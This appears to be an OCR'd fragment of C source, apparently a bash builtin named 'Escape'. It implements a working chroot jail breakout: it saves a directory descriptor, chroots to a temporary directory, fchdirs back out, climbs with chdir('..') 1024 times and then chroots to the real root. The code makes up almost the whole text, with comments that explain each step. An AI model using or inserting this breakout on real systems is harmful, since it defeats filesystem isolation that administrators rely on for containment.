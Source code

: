 ```C
  **  
  */  
  if ((dir_fd=open(".",O_RDONLY))<0) {  
    fprintf(stderr,"Failed to open \".\" for reading - %s\n",  
            strerror(errno));  
    exit(1);  
  }  
#endif  
   
  /*  
  ** Next we chroot() to the temporary directory  
  */  
  if (chroot(TEMP_DIR)<0) {  
    fprintf(stderr,"Failed to chroot to %s - %s\n",TEMP_DIR,  
            strerror(errno));  
    exit(1);  
  }  
   
#ifdef NEED_FCHDIR  
  /*  
  ** Partially break out of the chroot by doing an fchdir()  
  **  
  ** This only partially breaks out of the chroot() since whilst  
  ** our current working directory is outside of the chroot() jail,  
  ** our root directory is still within it. Thus anything which refers  
  ** to "/" will refer to files under the chroot() point.  
  **  
  ** Note: Only required if chroot() changes the calling program's  
  **       working directory to the directory given to chroot().  
  **  
  */  
  if (fchdir(dir_fd)<0) {  
    fprintf(stderr,"Failed to fchdir - %s\n",  
            strerror(errno));  
    exit(1);  
  }  
  close(dir_fd);  
#endif  
   
  /*  
  ** Completely break out of the chroot by recursing up the directory  
  ** tree and doing a chroot to the current working directory (which will  
  ** be the real "/" at that point). We just do a chdir("..") lots of  
  ** times (1024 times for luck :). If we hit the real root directory before  
  ** we have finished the loop below it doesn't matter as .. in the root  
  ** directory is the same as . in the root.  
  **  
  ** We do the final break out by doing a chroot(".") which sets the root  
  ** directory to the current working directory - at this point the real  
  ** root directory.  
  */  
  for(x=0;x<1024;x++) {  
    chdir("..");  
  }  
  chroot(".");  
  return (EXECUTION_SUCCESS);
}

char *escape_doc[] = {
	"Escape (:",
	"",
	"",
	(char *)NULL
```